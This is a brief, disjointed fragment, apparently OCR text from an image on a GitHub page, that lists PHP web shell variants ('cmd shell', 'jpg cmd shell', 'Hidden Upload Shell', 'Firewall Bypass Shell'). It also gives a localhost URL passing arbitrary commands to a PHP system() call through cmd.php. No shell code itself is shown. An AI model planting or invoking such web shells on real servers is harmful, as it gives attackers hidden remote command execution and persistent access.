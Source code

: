 php cmd shell > cmd.php 

jpg cmd shell >

Hidden Upload Shell >

Firewall Bypass Shell

view-source:http://localhost/cmd.php?function=system&command=

# Cmd Shell
